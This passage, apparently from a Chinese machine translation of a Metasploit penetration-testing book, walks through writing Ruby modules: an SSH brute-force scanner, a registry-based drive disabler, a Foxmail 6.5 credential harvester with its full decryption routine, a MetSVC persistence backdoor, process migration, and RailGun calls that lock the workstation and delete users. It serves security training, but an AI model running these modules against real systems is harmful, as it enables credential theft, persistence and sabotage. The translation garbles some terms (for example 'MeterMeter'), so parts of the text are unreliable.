我们可以看到模块运行成功，并且在端口`21`上有运行服务的横幅，即`220-FileZilla Server 0.9.60 beta`。前面模块中的`report_service`功能将数据存储到服务部分，可以通过运行`services`命令看到，如前面的屏幕截图所示。

有关 Metasploit 项目中模块验收的更多信息，请参阅：[https://github.com/rapid7/metasploit-framework/wiki/Guidelines-for-Accepting-Modules-and-Enhancements](https://github.com/rapid7/metasploit-framework/wiki/Guidelines-for-Accepting-Modules-and-Enhancements) 。

# 使用暴力攻击写出自定义 SSH 身份验证

为了检查弱登录凭据，我们需要执行验证暴力攻击。此类测试的议程不仅是针对弱凭据测试应用程序，还包括确保适当的授权和访问控制。这些测试确保攻击者不能简单地通过尝试非穷举暴力攻击绕过安全模式，并在一定数量的随机猜测后被锁定。

在设计 SSH 服务上的身份验证测试的下一个模块时，我们将了解在 Metasploit 中设计基于身份验证的检查并执行攻击身份验证的测试是多么容易。现在让我们跳到编码部分，开始设计一个模块，如下所示：

```
require 'metasploit/framework/credential_collection' 
require 'metasploit/framework/login_scanner/ssh' 

class MetasploitModule < Msf::Auxiliary 

  include Msf::Auxiliary::Scanner 
  include Msf::Auxiliary::Report 
  include Msf::Auxiliary::AuthBrute 

  def initialize 
    super( 
      'Name'        => 'SSH Scanner', 
      'Description' => %q{ 
        My Module. 
      }, 
      'Author'      => 'Nipun Jaswal', 
      'License'     => MSF_LICENSE 
    ) 

    register_options( 
      [ 
        Opt::RPORT(22) 
      ]) 
  end 
```

在前面的示例中，我们已经看到了使用`Msf::Auxiliary::Scanner`和`Msf::Auxiliary::Report`的重要性。让我们看看包含的其他库，并通过下表了解它们的用法：

| **包含报表** | **路径** | **用法** |
| `Msf::Auxiliary::AuthBrute` | `/lib/msf/core/auxiliary/auth_brute.rb` | 提供必要的暴力强制机制和功能，例如提供使用单一输入用户名和密码、单词列表和空白密码的选项。 |

在前面的代码中，我们还包含了两个文件，`metasploit/framework/login_scanner/ssh`和`metasploit/framework/credential_collection`。`metasploit/framework/login_scanner/ssh`文件包括 SSH 登录扫描程序库，该库消除了所有手动操作，并为 SSH 扫描提供了底层 API。`metasploit/framework/credential_collection`文件有助于根据`datastore`的用户输入创建多个凭证。接下来，我们只需定义正在构建的模块的类型。

在`initialize`部分，我们定义了该模块的基本信息。让我们看下一节：

```
def run_host(ip) 
    cred_collection = Metasploit::Framework::CredentialCollection.new( 
      blank_passwords: datastore['BLANK_PASSWORDS'], 
      pass_file: datastore['PASS_FILE'], 
      password: datastore['PASSWORD'], 
      user_file: datastore['USER_FILE'], 
      userpass_file: datastore['USERPASS_FILE'], 
      username: datastore['USERNAME'], 
      user_as_pass: datastore['USER_AS_PASS'], 
    ) 

    scanner = Metasploit::Framework::LoginScanner::SSH.new( 
      host: ip, 
      port: datastore['RPORT'], 
      cred_details: cred_collection, 
      proxies: datastore['Proxies'], 
      stop_on_success: datastore['STOP_ON_SUCCESS'], 
      bruteforce_speed: datastore['BRUTEFORCE_SPEED'], 
      connection_timeout: datastore['SSH_TIMEOUT'], 
      framework: framework, 
      framework_module: self, 
    ) 
```

我们可以看到前面的代码中有两个对象，`cred_collection`和`scanner`。这里需要注意的一点是，我们不需要任何手动方法来登录 SSH 服务，因为登录扫描程序为我们做了所有事情。因此，`cred_collection`除了根据模块上设置的`datastore`选项生成凭证集之外，什么也不做。`CredentialCollection`类的美妙之处在于，它可以同时获取单个用户名/密码组合、单词列表和空白凭据，或者一次获取其中一个。

所有登录扫描程序模块的登录尝试都需要凭据对象。前面代码中定义的`scanner`对象初始化 SSH 类的对象。此对象存储目标地址、端口、由`CredentialCollection`类生成的凭据以及其他数据，如代理信息`stop_on_success`，这些数据将在成功的凭据匹配时停止扫描、暴力速度以及尝试超时的值。

到目前为止，在模块中，我们已经创建了两个对象；`cred_collection`将根据用户输入生成凭据，`scanner`对象将使用这些凭据扫描目标。接下来，我们需要定义一种机制，以便将单词列表中的所有凭据定义为单个参数，并针对目标进行测试。

我们已经在前面的示例中看到了`run_host`的用法。让我们看看在本模块中，我们将使用各种库中的其他重要功能：

| **功能** | **库文件** | **用法** |
| `create_credential()` | `/lib/msf/core/auxiliary/report.rb` | 从结果对象生成凭据数据。 |
| `create_credential_login()` | `/lib/msf/core/auxiliary/report.rb` | 从结果对象创建登录凭据，该凭据可用于登录到特定服务。 |
| `invalidate_login` | `/lib/msf/core/auxiliary/report.rb` | 将一组凭据标记为对特定服务无效。 |

让我们看看如何实现这一目标：

```
   scanner.scan! do |result| 
      credential_data = result.to_h 
      credential_data.merge!( 
          module_fullname: self.fullname, 
          workspace_id: myworkspace_id 
      ) 
         if result.success? 
        credential_core = create_credential(credential_data) 
        credential_data[:core] = credential_core 
        create_credential_login(credential_data) 
        print_good "#{ip} - LOGIN SUCCESSFUL: #{result.credential}" 
         else 
        invalidate_login(credential_data) 
        print_status "#{ip} - LOGIN FAILED: #{result.credential} (#{result.status}: #{result.proof})" 
         end 
   end 
end 
end 
```

可以看到，我们使用了`.scan`来初始化扫描，这将自行执行所有登录尝试，这意味着我们不需要明确指定任何其他机制。`.scan`指令与 Ruby 中的`each`循环非常相似。

在下一条语句中，结果保存在`result`对象中，并使用`to_h`方法分配给`credential_data`变量，该方法将数据转换为哈希格式。在下一行中，我们将模块名称和工作区 ID 合并到`credential_data`变量中。接下来，我们使用`.success`变量对`result`对象运行 if-else 检查，该变量表示成功登录目标。如果`result.success?`变量返回 true，我们将凭证标记为成功登录尝试，并将其存储在数据库中。但是，如果不满足条件，我们将`credential_data`变量传递给表示登录失败的`invalidate_login`方法。

建议仅在通过`msftidy`执行一致性检查后，才运行本章和所有后续章节中的所有模块。让我们试着运行模块，如下所示：


我们可以看到，我们可以使用`claire`和`18101988`作为用户名和密码登录。让我们看看是否能够使用`creds`命令将凭据登录到数据库：


我们可以看到，我们已将详细信息记录到数据库中，它们可用于执行高级攻击或用于报告。

# 重新表述方程式

如果您在完成前面列出的模块后感到挠头，让我们一步一步地了解该模块：

1.  我们已经创建了一个`CredentialCollection`对象，它接受任何用户作为输入并生成凭证，这意味着如果我们提供`USERNAME`作为根，`PASSWORD`作为根，它将生成作为单个凭证的凭证。但是，如果我们使用`USER_FILE`和`PASS_FILE`作为字典，那么它将从字典文件中获取每个用户名和密码，并分别从文件中为用户名和密码的每个组合生成凭据。
2.  我们已经为 SSH 创建了一个`scanner`对象，它将消除任何手动命令使用，只需逐个检查我们提供的所有组合。
3.  我们已经使用`.scan`方法运行了`scanner`，该方法将初始化对目标的暴力验证。
4.  `.scan`方法将逐个扫描所有凭证，并根据结果将其存储到数据库中并与`print_good`一起显示，否则将使用`print_status`进行显示而不保存。

# 编写驱动器禁用后利用模块

正如我们现在看到的模块构建的基础知识一样，我们可以更进一步，尝试构建一个后开发模块。这里需要记住的一点是，我们只能在成功破坏目标后运行攻击后模块。

因此，让我们从一个简单的驱动器禁用模块开始，该模块将在目标系统（即 Windows 7 操作系统）上禁用选定的驱动器。让我们看看模块的代码，如下所示：

```
require 'rex' 
require 'msf/core/post/windows/registry' 
class MetasploitModule < Msf::Post 
  include Msf::Post::Windows::Registry 
  def initialize 
    super( 
        'Name'          => 'Drive Disabler', 
        'Description'   => 'This Modules Hides and Restrict Access to a Drive', 
        'License'       => MSF_LICENSE, 
        'Author'        => 'Nipun Jaswal' 
      ) 
    register_options( 
      [ 
        OptString.new('DriveName', [ true, 'Please SET the Drive Letter' ]) 
      ]) 
  end     
```

我们以与前面模块相同的方式开始。我们添加了此后期开发模块所需的所有库的路径。让我们在下表中查看任何新的包含项及其用法：

| **包含报表** | **路径** | **用法** |
| `Msf::Post::Windows::Registry` | `lib/msf/core/post/windows/registry.rb` | 这个库将使我们能够使用 Ruby mixin 轻松地使用注册表操作函数。 |

接下来，我们将模块的类型定义为`Post`，用于后期开发。继续代码，我们用`initialize`方法描述模块的必要信息。我们始终可以定义`register_options`来定义与模块一起使用的自定义选项。在这里，我们使用`OptString.new`将`DriveName`描述为字符串数据类型。新选项的定义需要两个参数，即`required`和`description`。我们将`required`的值设置为`true`，因为我们需要一个驱动器号来启动隐藏和禁用过程。因此，将其设置为`true`将不允许模块运行，除非为其分配了值。接下来，我们定义新添加的`DriveName`选项的描述。

在继续代码的下一部分之前，让我们看看本模块将使用哪些重要功能：

| **功能** | **库文件** | **用法** |
| `meterpreter_registry_key_exist` | `lib/msf/core/post/windows/registry.rb` | 检查注册表中是否存在特定项 |
| `registry_createkey` | `lib/msf/core/post/windows/registry.rb` | 创建一个新的注册表项 |
| `meterpreter_registry_setvaldata` | `lib/msf/core/post/windows/registry.rb` | 创建一个新的注册表值 |

让我们看看模块的其余部分：

```
def run 
drive_int = drive_string(datastore['DriveName']) 
key1="HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" 

exists = meterpreter_registry_key_exist?(key1) 
if not exists 
print_error("Key Doesn't Exist, Creating Key!") 
registry_createkey(key1) 
print_good("Hiding Drive") 
meterpreter_registry_setvaldata(key1,'NoDrives',drive_int.to_s,'REG_DWORD',REGISTRY_VIEW_NATIVE) 
print_good("Restricting Access to the Drive") 
meterpreter_registry_setvaldata(key1,'NoViewOnDrives',drive_int.to_s,'REG_DWORD',REGISTRY_VIEW_NATIVE) 
else 
print_good("Key Exist, Skipping and Creating Values") 
print_good("Hiding Drive") 
meterpreter_registry_setvaldata(key1,'NoDrives',drive_int.to_s,'REG_DWORD',REGISTRY_VIEW_NATIVE) 
print_good("Restricting Access to the Drive") 
meterpreter_registry_setvaldata(key1,'NoViewOnDrives',drive_int.to_s,'REG_DWORD',REGISTRY_VIEW_NATIVE) 
end 
print_good("Disabled #{datastore['DriveName']} Drive") 
end 
```

我们通常使用`run`方法运行后期开发模块。因此，定义`run`，我们将`DriveName`变量发送给`drive_string`方法，以获取驱动器的数值。

我们创建了一个名为`key1`的变量，并将注册表的路径存储在其中。我们将使用`meterpreter_registry_key_exist`检查系统中是否已经存在密钥。

如果键存在，`exists`变量的值被指定为`true`或`false`。如果`exists`变量的值为`false`，我们使用`registry_createkey(key1)`创建键，然后继续创建值。但是，如果条件为真，我们只需创建值。

要隐藏驱动器并限制访问，我们需要创建两个注册表值，分别为`NoDrives`和`NoViewOnDrive`，驱动器号的值为十进制或十六进制，其类型为`DWORD`。

我们可以使用`meterpreter_registry_setvaldata`进行此操作，因为我们使用的是流量计外壳。我们需要为`meterpreter_registry_setvaldata`功能提供五个参数，以确保其正常运行。这些参数是以字符串形式表示的键路径、以字符串形式表示的注册表值名称、以字符串形式表示的驱动器号十进制值、以字符串形式表示的注册表值类型以及以整数值形式表示的视图，对于本机视图为 0，对于 32 位视图为 1，对于 64 位视图为 2。

`meterpreter_registry_setvaldata`的一个例子可以分解如下：

```
meterpreter_registry_setvaldata(key1,'NoViewOnDrives',drive_int.to_s,'REG_DWORD',REGISTRY_VIEW_NATIVE) 
```

在前面的代码中，我们将路径设置为`key1`，值设置为`NoViewOnDrives`，16 作为驱动器`D`的小数，`REG_DWORD`作为注册表类型，`REGISTRY_VIEW_NATIVE`提供 0。

对于 32 位注册表访问，我们需要提供 1 作为视图参数，对于 64 位，我们需要提供 2。但是，这可以分别使用`REGISTRY_VIEW_32_BIT`和`REGISTRY_VIEW_64_BIT`来完成。

您可能想知道我们如何知道对于驱动器`E`我们需要将位掩码的值设置为`16`？让我们在下一节中了解如何计算位掩码。

为了计算特定驱动器的位掩码，我们有公式`2^([drive character serial number]-1)`。假设我们需要禁用驱动器`E`；我们知道字母 E 是字母表中的第五个字符。因此，我们可以计算禁用驱动器`E`的确切位掩码值，如下所示：

*2^ (5-1) = 2^4= 16*

位掩码值为`16`用于禁用`E`驱动器。然而，在前面的模块中，我们使用`case`开关在`drive_string`方法中硬编码了一些值。让我们看看我们是如何做到这一点的：

```
def drive_string(drive) 
case drive 
when "A" 
return 1 

when "B" 
return 2 

when "C" 
return 4 

when "D" 
return 8 

when "E" 
return 16 
end 
end 
end 
```

我们可以看到，前面的方法将驱动器号作为参数，并将其相应的数字返回给调用函数。让我们看看目标系统上有多少个驱动器：


我们可以看到我们有两个驱动器，驱动器`C`和驱动器`E`。我们还要检查注册表项，我们将在其中使用模块写入新键：


我们可以看到，我们还没有资源管理器密钥。让我们运行模块，如下所示：


我们可以看到该键不存在，根据我们模块的执行情况，它应该将这些键写入注册表。让我们再次检查注册表：


我们可以看到我们有钥匙。注销并重新登录系统后，驱动器`E`应该已经消失。让我们检查一下：


无驾驶迹象`E`。因此，我们成功地从用户的角度禁用了驱动器`E`，并限制了对该驱动器的访问。

我们可以根据需要创建任意多个开发后模块。我建议您在 Metasploit 的库上花费一些额外的时间。

确保您拥有`SYSTEM`级别的访问权限，以使前面的脚本正常工作，因为`SYSTEM`权限不会在当前用户下创建注册表，而是在本地计算机上创建。除此之外，我们使用了`HKLM`而不是编写`HKEY_LOCAL_MACHINE`，因为内置的规范化将自动创建完整形式的密钥。我建议您查看`registry.rb`文件，查看各种可用的方法。

如果您没有系统权限，请尝试使用`exploit/windows/local/bypassuac`模块并切换到升级的 shell，然后尝试前面的模块。

# 编写凭证收割机后利用模块

在本示例模块中，我们将攻击 Foxmail 6.5。我们将尝试解密凭据并将其存储在数据库中。让我们看看代码：

```
class MetasploitModule < Msf::Post 
  include Msf::Post::Windows::Registry 
  include Msf::Post::File 
  include Msf::Auxiliary::Report 
  include Msf::Post::Windows::UserProfiles 

  def initialize(info={}) 
    super(update_info(info, 
      'Name'          => 'FoxMail 6.5 Credential Harvester', 
      'Description'   => %q{ 
This Module Finds and Decrypts Stored Foxmail 6.5 Credentials 
      }, 
      'License'       => MSF_LICENSE, 
      'Author'        => ['Nipun Jaswal'], 
      'Platform'      => [ 'win' ], 
      'SessionTypes'  => [ 'meterpreter' ] 
    )) 
  end 
```

非常简单，正如我们在前面的模块中看到的；我们首先包括所有必需的库，并提供有关模块的基本信息。

我们已经看到了`Msf::Post::Windows::Registry`和`Msf::Auxiliary::Report`的用法。让我们看一下本模块中包含的新库的详细信息，如下所示：

| **包含报表** | **路径** | **用法** |
| `Msf::Post::Windows::UserProfiles` | `lib/msf/core/post/windows/user_profiles.rb` | 该库将提供 Windows 系统上的所有配置文件，包括查找重要目录、路径等。 |
| `Msf::Post::File` | `lib/msf/core/post/file.rb` | 该库将提供帮助文件操作的功能，如读取文件、检查目录、列出目录、写入文件等。 |

在理解本模块的下一部分之前，让我们先看看获取凭据需要执行哪些操作：

1.  我们将搜索用户配置文件并找到当前用户`LocalAppData`目录的确切路径。
2.  我们将使用之前找到的路径并将其与`\VirtualStore\Program Files (x86)\Tencent\Foxmail\mail`连接起来，以建立到`mail`目录的完整路径。
3.  我们将列出`mail`目录中的所有目录，并将它们存储在一个数组中。但是，`mail`目录中的目录名将使用各种邮件提供商的用户名命名约定。例如，`nipunjaswal@rocketmail.com`将是`mail`目录中存在的目录之一。
4.  接下来，我们将在`mail`目录下的 accounts 目录中找到`Account.stg`文件。
5.  我们将读取`Account.stg`文件，并找到名为`POP3Password`的常量的哈希值。
6.  我们将把散列值传递给解密方法，该方法将以明文形式查找密码。
7.  我们将把值存储在数据库中。

很简单！让我们分析一下代码：

```
def run 
  profile = grab_user_profiles() 
  counter = 0 
  data_entry = "" 
  profile.each do |user| 
  if user['LocalAppData'] 
  full_path = user['LocalAppData'] 
  full_path = full_path+"\VirtualStore\Program Files (x86)\Tencent\Foxmail\mail" 
  if directory?(full_path) 
  print_good("Fox Mail Installed, Enumerating Mail Accounts") 
  session.fs.dir.foreach(full_path) do |dir_list| 
  if dir_list =~ /@/ 
  counter=counter+1 
  full_path_mail = full_path+ "\" + dir_list + "\" + "Account.stg" 
  if file?(full_path_mail) 
  print_good("Reading Mail Account #{counter}") 
  file_content = read_file(full_path_mail).split("n") 
```

在开始理解前面的代码之前，让我们先看看其中使用了哪些重要函数，以便更好地使用这些函数：

| **功能** | **库文件** | **用法** |
| `grab_user_profiles()` | `lib/msf/core/post/windows/user_profiles.rb` | 获取 Windows 平台上重要目录的所有路径 |
| `directory?` | `lib/msf/core/post/file.rb` | 检查目录是否存在 |
| `file?` | `lib/msf/core/post/file.rb` | 检查文件是否存在 |
| `read_file` | `lib/msf/core/post/file.rb` | 读取文件的内容 |
| `store_loot` | `/lib/msf/core/auxiliary/report.rb` | 将获取的信息存储到文件和数据库中 |

我们可以在前面的代码中看到，我们使用`grab_user_profiles()`获取了配置文件，并且，对于每个配置文件，我们都尝试查找`LocalAppData`目录。我们一找到它，就把它存储在一个名为`full_path`的变量中。

接下来，我们将路径连接到`mail`文件夹，其中所有帐户都列为目录。我们使用`directory?`检查路径是否存在，成功后，我们使用正则表达式匹配将名称中包含`@`的所有目录名复制到`dir_list`。接下来，我们创建了另一个名为`full_path_mail`的变量，并为每封电子邮件存储`Account.stg`文件的确切路径。我们使用`file?`确保`Account.stg`文件存在。成功后，我们读取文件并在换行时拆分所有内容。我们将拆分的内容存储到`file_content`列表中。让我们看看代码的下一部分：

```
  file_content.each do |hash| 
  if hash =~ /POP3Password/ 
  hash_data = hash.split("=") 
  hash_value = hash_data[1] 
  if hash_value.nil? 
  print_error("No Saved Password") 
  else 
  print_good("Decrypting Password for mail account: #{dir_list}")  
  decrypted_pass = decrypt(hash_value,dir_list) 
  data_entry << "Username:" +dir_list + "t" + "Password:" + decrypted_pass+"n" 
  end 
  end 
  end 
  end 
  end 
  end 
  end 
  end 
  end 
  store_loot("Foxmail Accounts","text/plain",session,data_entry,"Fox.txt","Fox Mail Accounts") 
  end 
```

对于`file_content`中的每个条目，我们都进行了检查，以找到常数`POP3Password`。一旦找到，我们将常数拆分为`=`，并将常数值存储在变量`hash_value`中。

接下来，我们直接将`hash_value`和`dir_list`（账户名称）传递给`decrypt`函数。成功解密后，普通密码存储在`decrypted_pass`变量中。我们创建另一个名为`data_entry`的变量，并将所有凭证附加到该变量。我们之所以这样做，是因为我们不知道目标系统上可能配置了多少电子邮件帐户。因此，对于每个结果，凭证都会附加到`data_entry`。所有操作完成后，我们使用`store_loot`方法将`data_entry`变量存储在数据库中。我们为`store_loot`方法提供了六个参数，它们的名称是收获、内容类型、会话、`data_entry`、文件名和收获描述。

让我们了解解密函数，如下所示：

```
def decrypt(hash_real,dir_list) 
  decoded = "" 
  magic = Array[126, 100, 114, 97, 71, 111, 110, 126] 
  fc0 = 90 
  size = (hash_real.length)/2 - 1 
  index = 0 
  b = Array.new(size) 
  for i in 0 .. size do 
  b[i] = (hash_real[index,2]).hex  
  index = index+2 
  end 
  b[0] = b[0] ^ fc0 
  double_magic = magic+magic 
  d = Array.new(b.length-1) 
  for i in 1 .. b.length-1 do 
  d[i-1] = b[i] ^ double_magic[i-1] 
  end 
  e = Array.new(d.length) 
  for i in 0 .. d.length-1 
  if (d[i] - b[i] < 0) 
  e[i] = d[i] + 255 - b[i] 
  else 
  e[i] = d[i] - b[i] 
  end 
  decoded << e[i].chr 
  end 
  print_good("Found Username #{dir_list} with Password: #{decoded}") 
  return decoded 
  end 
  end 
```

在前面的方法中，我们收到两个参数，它们是哈希密码和用户名。`magic`变量是存储在一个数组中的解密密钥，该数组包含`~draGon~`字符串的十进制值，一个接一个。我们将整数`90`存储为`fc0`，稍后我们将讨论这个问题。

接下来，我们通过将哈希值除以 2 并减去 1 来计算哈希值的大小。这将是我们的新阵列`b`的大小。

在下一步中，我们将散列拆分为字节（每个字节两个字符），并将其存储到数组`b`中。我们对数组`b`的第一个字节执行`XOR`，将`fc0`放入`b`本身的第一个字节，从而通过对`b[0]`执行异或操作来更新`b[0]`的值。这对于 Foxmail 6.5 是固定的。

现在，我们将数组魔法复制两次到一个新数组中，`double_magic`。我们还声明了`double_magic`的大小小于数组`b`的大小。我们对数组`b`和`double_magic`的所有元素执行`XOR`，除了`b`的第一个元素，我们已经对其执行了异或操作。

我们将异或运算的结果存储在数组`d`中。在下一条指令中，我们从数组`b`中减去完整的数组`d`。但是，如果某个特定的减法运算的值小于 0，我们将向数组`d`的元素添加 255。

在下一步中，我们只需将结果数组`e`中特定元素的 ASCII 值附加到`decoded`变量中，并将其返回给调用语句。

让我们看看运行此模块时会发生什么：



很明显，我们很容易解密存储在 Foxmail6.5 中的凭证。

# 突破性的 MeterMeter 脚本

MeterMeter 外壳是攻击者希望对目标进行的最理想的访问类型。MeterMeter 为攻击者提供了一套广泛的工具，用于在受损系统上执行各种任务。MeterMeter 有许多内置脚本，这使得攻击者更容易攻击系统。这些脚本在受损的系统上执行繁琐而直接的任务。在本节中，我们将介绍这些脚本，它们由什么组成，以及如何在 MeterMeter 中利用它们。

基本 MeterMeter 命令备忘表可在以下网址获得：[http://www.scadahackr.com/library/Documents/Cheat_Sheets/Hacking%20-%20Meterpreter%20 作弊%20%20Sheet.pdf](http://www.scadahackr.com/library/Documents/Cheat_Sheets/Hacking%20-%20Meterpreter%20Cheat%20%20Sheet.pdf)。

# MeterMeter 脚本编写要点

就我们所见，我们已经在需要在系统上执行一些额外任务的情况下使用了 MeterMeter。然而，现在我们将看看渗透测试期间可能出现的一些问题情况，其中 MeterMeter 中已经存在的脚本似乎对我们没有帮助。在这种情况下，我们很可能希望将自定义功能添加到 MeterMeter 并执行所需的任务。但是，在我们继续在 MeterMeter 中添加自定义脚本之前，让我们先执行 MeterMeter 的一些高级功能，并了解它的功能。

# 设置持久访问

一旦我们能够访问目标机器，我们就可以转向内部网络，正如我们在上一章中所看到的，但也必须保留来之不易的访问权限。但是，对于经批准的渗透试验，仅在试验期间强制进行，且应在项目范围内。MeterMeter 允许我们使用两种不同的方法在目标上安装后门：**MetSVC**和**Persistence**。

在接下来的章节中，我们将看到一些高级持久性技术。因此，这里我们将讨论 MetSVC 方法。MetSVC 服务作为一项服务安装在受损系统中。此外，它还会永久性地打开一个端口，以便攻击者随时可以连接到该端口。

在目标位置安装 MetSVC 很容易。让我们看看如何做到这一点：



我们可以看到 MetSVC 服务在端口`31337`创建了一个服务，并上传了恶意文件。

稍后，每当需要访问此服务时，我们需要使用带有漏洞处理程序脚本的`metsvc_bind_tcp`负载，这将允许我们再次连接到该服务，如以下屏幕截图所示：


即使在目标计算机重新启动后，MetSVC 的效果仍然存在。当我们需要永久访问目标系统时，MetSVC 非常方便，因为它节省了重新利用目标系统所需的时间。

# API 调用和混合

我们刚刚看到如何使用 MeterMeter 执行高级任务。这确实使渗透测试仪的使用寿命更容易。

现在，让我们深入了解 MeterMeter 的工作原理，并揭示 MeterMeter 模块和脚本的底层构建过程。有时，我们可能会耗尽 MeterMeter 的产品，并希望定制功能来执行所有必需的任务。在这种情况下，我们需要构建自己的定制 MeterMeter 模块，这些模块可以实现或自动化开发时所需的各种任务。

让我们首先了解 MeterMeter 脚本的基础知识。使用 MeterMeter 编码的基础是**应用程序编程接口**（**API**调用和混合。需要使用特定的基于 Windows 的**动态链接库**（**DLL】**执行特定任务，并使用各种内置的基于 Ruby 的模块执行一些常见任务。

mixin 是基于 Ruby 编程的类，包含来自各种其他类的方法。当我们在目标系统上执行各种任务时，mixin 非常有用。除此之外，mixin 并不完全是 IRB 的一部分，但它们有助于轻松编写特定的高级 MeterMeter 脚本。

有关 mixin 的更多信息，请参阅：[http://www.offensive-security.com/metasploit-unleashed/Mixins_and_Plugins](http://www.offensive-security.com/metasploit-unleashed/Mixins_and_Plugins) 。

我建议大家看看`/lib/rex/post/meterpreter`和`/lib/msf/scripts/meterpreter`目录，看看 MeterMeter 使用的各种库。

API 调用是特定于 Windows 的调用，用于从 Windows DLL 文件中调用特定函数。我们将在*使用 RailGun*一节中很快了解 API 调用。

# 制作自定义 MeterMeter 脚本

让我们编写一个简单的 MeterMeter 脚本示例，它将检查我们是否是管理员用户，然后找到 explorer 进程并自动迁移到其中。

在查看代码之前，让我们先看看我们将使用的所有基本方法：

| **功能** | **库文件** | **用法** |
| `is_admin` | `/lib/msf/core/post/windows/priv.rb` | 检查会话是否具有管理员权限。 |
| `is_in_admin_group` | `/lib/msf/core/post/windows/priv.rb` | 检查用户是否属于管理员组。 |
| `session.sys.process.get_processes()` | `/lib/rex/post/meterpreter/extensions/stdapi/sys/process.rb` | 列出目标上所有正在运行的进程。 |
| `session.core.migrate()` | `/lib/rex/post/meterpreter/client_core.rb` | 将访问权限从现有进程迁移到参数中指定的 PID。 |
| `is_uac_enabled?` | `/lib/msf/core/post/windows/priv.rb` | 检查 UAC 是否已启用。 |
| `get_uac_level` | `/lib/msf/core/post/windows/priv.rb` | 获取 UAC 级别：0、2、5，依此类推。0:禁用，2:全部，5:默认。 |

让我们看看下面的代码：

```
#Admin Check 
print_status("Checking If the Current User is Admin") 
admin_check = is_admin? 
if(admin_check) 
print_good("Current User Is Admin") 
else 
print_error("Current User is Not Admin") 
end 
```

我们只是在前面的代码中检查当前用户是否是管理员。函数`is_admin`返回一个布尔值，在此基础上打印结果：

```
#User Group Check 
user_check = is_in_admin_group? 
if(user_check) 
print_good("Current User is in the Admin Group") 
else 
print_error("Current User is Not in the Admin Group") 
end 
```

在前面的代码中，我们检查用户是否属于管理员组。前一段代码在逻辑上与前一段代码非常相似：

```

#Process Id Of the Explorer.exe Process 
current_pid = session.sys.process.getpid 
print_status("Current PID is #{current_pid}") 
session.sys.process.get_processes().each do |x| 
if x['name'].downcase == "explorer.exe" 
print_good("Explorer.exe Process is Running with PID #{x['pid']}") 
explorer_ppid = x['pid'].to_i 
# Migration to Explorer.exe Process 
session.core.migrate(explorer_ppid) 
current_pid = session.sys.process.getpid 
print_status("Current PID is #{current_pid}") 
end 
end  
```

这里的片段是一段激动人心的代码。我们首先使用`session.sys.process.getpid`查找当前进程 ID，然后使用`session.sys.process.get_processes()`上的循环遍历目标系统上的所有进程。如果发现任何进程名为`explorer.exe`，我们将打印一条消息并将其 ID 存储到`explorer_ppid`变量中。使用`session.core.migrate()`方法，我们传递存储的进程 ID（`explorer.exe`以迁移到`explorer.exe`进程。最后，我们只需再次打印当前进程 ID，以确保迁移是否成功：

```
# Finding the Current User 
print_status("Getting the Current User ID") 
currentuid = session.sys.config.getuid 
print_good("Current Process ID is #{currentuid}") 
```

在前面的代码中，我们使用`sessions.sys.config.getuid`方法简单地查找当前用户的标识符：

```
#Checking if UAC is Enabled 
uac_check = is_uac_enabled? 
if(uac_check) 
print_error("UAC is Enabled") 
uac_level = get_uac_level 
if(uac_level = 5) 
print_status("UAC level is #{uac_level.to_s} which is Default") 
elsif (uac_level = 2) 
print_status("UAC level is #{uac_level.to_s} which is Always Notify") 
else 
print_error("Some Error Occured") 
end 
else 
print_good("UAC is Disabled") 
end 
```

前面的代码检查目标系统上是否启用了 UAC。如果启用了 UAC，我们将使用`get_uac_level`方法进一步深入查找 UAC 的级别，并通过其响应值打印状态。

让我们将此代码保存在`/scripts/meterpreter/gather.rb`目录中，并从 MeterMeter 启动此脚本。这将为您提供类似于以下屏幕截图的输出：


我们可以看到创建 MeterMeter 脚本以及执行各种任务和任务自动化是多么容易。我建议您检查模块中使用的所有包含的文件和路径，以便全面了解 MeterMeter。

根据 Metasploit 的官方 wiki，您不应该再编写 MeterMeter 脚本，而应该编写开发后模块。

# 使用轨道炮

轨道炮听起来像是一把以比光速还快的速度射出子弹的顶尖炮；然而，情况并非如此。RailGun 允许您调用 Windows API，而无需编译自己的 DLL。

它支持许多 Windows DLL 文件，简化了我们在受害机器上执行系统级任务的方式。让我们看看如何使用 RailGun 执行各种任务，并使用它执行一些高级的后期开发。

# 交互式 Ruby 外壳基础知识

轨道炮要求将`irb`外壳装入流量计。让我们看看如何从 MeterMeter 跳转到`irb`外壳：


我们可以在前面的屏幕截图中看到，只需从 MeterMeter 输入`irb`，我们就可以进入 Ruby 交互式 shell。我们可以从这里使用 Ruby shell 执行各种任务。

# 理解 RailGun 及其脚本

轨道炮给了我们巨大的力量来执行 Metasploit 有时可能无法执行的任务。使用 RailGun，我们可以从被破坏的系统对任何 DLL 文件进行异常调用。

现在，让我们看看如何使用 RailGun 的基本 API 调用调用函数，并了解其工作原理：

```
client.railgun.DLLname.function(parameters) 
```

这是 RailGun 中 API 调用的基本结构。`client.railgun`关键字定义了客户对轨道炮功能的需求。`DLLname`关键字指定我们将调用的 DLL 文件的名称。语法中的`function (parameters)`关键字指定了实际的 API 函数，该函数将由 DLL 文件中的必需参数激发。

让我们看一个例子：


此 API 调用的结果如下所示：


这里，从`user32.dll`DLL 文件调用`LockWorkStation()`函数，从而锁定受损系统。

接下来，让我们看一个 API 调用，带有参数：

```
client.railgun.netapi32.NetUserDel(arg1,agr2) 
```

当前面的命令运行时，它将从客户机上删除特定用户。目前，我们有以下用户：


让我们尝试删除`Nipun`用户名：


让我们检查用户是否已成功删除：


用户似乎去钓鱼了。RailGun 调用已成功删除用户`Nipun`。`nil`值定义用户在本地机器上。但是，我们也可以使用 name 参数的值来定位远程系统。

# 操作 Windows API 调用

DLL 文件负责在基于 Windows 的系统上执行大多数任务。因此，有必要了解哪个 DLL 文件包含哪些方法。这与 Metasploit 的库文件非常相似，其中包含各种方法。为了研究 Windows API 调用，我们在[有优秀的资源 http://source.winehq.org/WineAPI/](http://source.winehq.org/WineAPI/) 和[http://msdn.microsoft.com/en-us/library/windows/desktop/ff818516（v=vs.85）。aspx](http://msdn.microsoft.com/en-us/library/windows/desktop/ff818516(v=vs.85).aspx)。我建议您在继续创建 RailGun 脚本之前，先研究各种 API 调用。

请参阅以下路径以了解有关 RailGun 支持的 DLL 文件的更多信息：`/usr/share/metasploit-framework/lib/rex/post/meterpreter/extensions/stdapi/railgun/def`。

# 制造复杂的轨道炮脚本

更进一步，让我们深入研究使用 RailGun 编写用于 MeterMeter 扩展的脚本。首先，让我们创建一个脚本，将自定义命名的 DLL 文件添加到 Metasploit 上下文中：

```
if client.railgun.get_dll('urlmon') == nil 
print_status("Adding Function") 
end 
